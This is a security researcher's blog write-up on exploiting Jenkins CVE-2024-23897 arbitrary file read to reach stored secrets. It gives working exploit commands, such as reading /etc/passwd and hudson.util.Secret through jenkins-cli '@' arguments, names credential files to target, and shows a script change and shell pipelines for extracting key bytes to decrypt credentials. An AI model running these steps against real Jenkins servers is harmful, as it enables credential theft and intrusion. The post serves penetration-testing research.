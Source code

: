 ```yaml
---
title: When US Export Restrictions Become an Advantage for Attackers (CVE-2024-23897)
date: 2024-07-02 13:33:37 +/-TTTT
categories: [crypto]
tags: [crypto,jenkins,hudson]     # TAG names should always be lowercase
image:
  path: https://s2.ezgif.com/tmp/ezgif-2-f4dfe46c67.gif
  show_in_post: true
---
```


## TL;DR:

You encountered a Jenkins instance vulnerable to CVE-2024-23897, which allows for arbitrary file read. Without credentials and with the /script endpoint inaccessible, You sought to leverage this vulnerability to gain further access through Jenkins.

## What is CVE-2024-23897?

>CVE-2024-23897 is a critical vulnerability in Jenkins that allows attackers to read arbitrary files on the Jenkins server, potentially leading to remote code execution (RCE). This vulnerability originates from the args4j library, which automatically expands file contents into command arguments when an argument begins with the "@" character.

While online resources commonly state that this vulnerability can result in RCE, they often do not elucidate the specific conditions under which this escalation can occur.

###RCE Conditions:

1. **Resource Root URL:**
   - The "Resource Root URL" functionality is enabled.
   - Attackers can retrieve binary secrets.
   - The attacker requires an API token for a (non-anonymous) user account. This user account does not need to currently possess Overall/Read permission.

2. **"Remember Me" Cookie:**
   - The "Remember me" feature is enabled (default setting).
   - Attackers possess Overall/Read permission, allowing them to read content in files beyond the initial lines.
   - Attackers can retrieve binary secrets.

3. **Remote Code Execution via CSRF Protection Bypass:**
   - Attackers can retrieve binary secrets.
   - The web session ID is not part of CSRF crumbs.

In our case, none of the above conditions were met. Additionally, the advisory mentions limitations regarding reading binary files, as detailed below:

><span style="color:red">**Limitations for reading binary files**</span>
![Jenkins Advisory Limitations of binary reading](https://ahmedsherif.github.io/assets/img/posts/2/jenkins-advisory-binary.png)

[Reference](https://www.jenkins.io/security/advisory/2024-01-24/#SECURITY-3314)

## Available exploit

There are several available POCs and the best one I tried so far was [this one](https://github.com/xaitax/CVE-2024-23897.git)

```bash
git clone https://github.com/xaitax/CVE-2024-23897.git
```

![Reading /etc/passwd](https://ahmedsherif.github.io/assets/img/posts/2/Exploit-etc-passwd.jpg)

Since we are unauthenticated users, we are only allowed to read 3 lines of any file based on the following commands

- `who-am-i`: reads the first line. 
- `enable-job`: reads second line. 
- `help`: reads the 3rd line. 

You can also execute it directly from jenkins-cli.jar that can be found in the following URL: `http://target/jnlpJars/jenkins-cli.jar`. 

```bash
java -jar jenkins-cli.jar -s http://sherif.com:9091 who-am-i '@/etc/passwd' 2>&1

ERROR: No argument is allowed: root:x:0:0:root:/root:/bin/bash
java -jar jenkins-cli.jar who-am-i
Reports your credential and permissions.

```

> During the actual assessment most likely the target needs to be accessed through tunneling (i.e. proxychains), in which `jenkins-cli.jar` will not work through but the python script. still `proxifier` can solve this on a windows machine. 
{: .prompt-warning }


## Enumeration!

Given the limitations on the files we can read, we need to identify files of interest that may partially assist us.

#### Notable Files:
- `/proc/self/environ`
- `/proc/self/cmdline`
- `${JENKINS_HOME}/credentials.xml` (Jenkins home can be found in `/proc/self`)
- `${JENKINS_HOME}/secrets/master.key`
- `${JENKINS_HOME}/secrets/initialAdminPassword`

Unfortunately, even if all the above files, including `master.key`, are obtained, they will not be sufficient.

Analyzing how Jenkins encrypts and decrypts credentials, as demonstrated in [this script](https://github.com/tweksteen/jenkins-decrypt/blob/master/decrypt.py), reveals that three components are required:

- `master.key`
- `hudson.util.Secret` (binary file)
- `encrypted credential` (e.g., `AQAAABAAAAAQmEZaw8Fv9tPlXWVQye1TR2KgF3p/wGoYs/TEQCmSxkk=`)

TBD How Jenkins do encryption and Decryption

## Analyzing retrieval of binary data

In the context of binary data retrieval, the absence of `hudson.util.Secret` presents a significant challenge. Attempts to retrieve it using the exploit mentioned above will fail, accompanied by the following error:

```python
❌ http://sherif.com:9091 not reachable: 'utf-8' codec can't decode byte 0xc6 in position 10: invalid continuation byte
```

This issue arises due to the presence of non-printable characters. However, modifying line 80 as follows resolves this:
```python
 result = response.hex()
 ```
> During research, it was observed that ippSec encountered similar issues while attempting to solve the builder machine, as highlighted in their YouTube video https://www.youtube.com/watch?v=jYCOIf9Fcmo&t=1427s. 
{: .prompt-info }


### Wireshark analysis
A Wireshark analysis was conducted to examine the retrieval of binary files. Notably, the binary file begins after the byte sequence `643a20`, with a repetitive sequence of `EFBFBD` starting from the 4th byte.


![wireshark-analysis](https://ahmedsherif.github.io/assets/img/posts/2/wireshark-dump.png)

> This was only the case on the testing environment, will explain more below
{: .prompt-danger}
## EFBFBD and UTF-8 conversion (�)


EF BF BD (in hex), which is the utf-8 encoding of the Unicode character U+FFFD [Replacement characters](https://www.fileformat.info/info/unicode/char/0fffd/index.htm).When decoding sequences of bytes into Unicode characters, a program may encounter a group bytes that is invalid (i.e. it does not correspond to a Unicode character). In such cases, the program has three choices: it can stop decoding and raise an error, silently skip over the invalid group of bytes, or translate the group of bytes into a special marker. This latter scheme allows most of the text to be read, but still leaves an indication that something went wrong.

coming across the blog of [errno](https://www.errno.fr/bruteforcing_CVE-2024-23897.html), it was an amazing inspiration for me. Errno had a new finding which is related to the US export restrictions, this simply means that the keys are only `128 bits / 16 bytes`. 

![US export keys](https://ahmedsherif.github.io/assets/img/posts/2/export-keys-jenkins.png)

## Game Over, right? 

Now after reading the code and blogpost of Errno and understanding the replacement characters, we are good to go and I was excited to start cracking the Hudson and confidentiality key. But Unfortunately that was not the case! 

Looking at the first 16 bytes in my case, clearly I can see no `EFBFBD` replacement character: 

![Jenkins-hex-hudson](https://ahmedsherif.github.io/assets/img/posts/2/Jenkins-hex-hudson.png)


> The above output is from exploiting the arbitrary file read, we can read the hudson bytes directly assuming the first bytes starts after `3a20`. The first 32 bytes are output from Jenkins-cli itself and irrelevant.
{: .prompt-tip }

You can achieve this by command line 
```bash
cat hudson.bin | tail -c +33 | head -c +16 | xxd
```
![hex-hudson-read-16bytes](https://ahmedsherif.github.io/assets/img/posts/2/Jenkins-reading-Hudson-16bytes.png)

### Repeated byte

Well, since we lost hope in our case for finding the replacement characters `EFBFBD`, we could actually assume that the hudson file did not have non-printable characters and is correct, but that was not the case since we could not decrypt our credentials with it. 

The other assumption is that we have a different encoding and replacement character could be anything else, so maybe we can try with repeated bytes?! 

```bash
dd if=hudson.bin bs=1 skip=32 count=16 2>/dev/null | xxd -p | fold -w2 | sort | uniq -c | sort -nr | head -n 1
```

![Hudson-Repeated-byte](https://ahmedsherif.github.io/assets/img/posts/2/Jenkins-repeated-byte.png)

Of course, I was not sure if this approach will work or not but that was the next logical step for me. 

```bash
cat masterkey.bin | xxd -p | tr -d '\n' | xxd -r -p | sha256sum | cut -c1-32 | sed 's/../0x&,/g'
```


```bash
java -jar ~/Downloads/jenkins-cli.jar -s http://127.0.0.1:9091 who-am-i '@/var/jenkins_home/secrets/hudson.util.Secret' 2>&1  | tail -c +33 | head -c 192 | xxd | tee hudson.bin
```
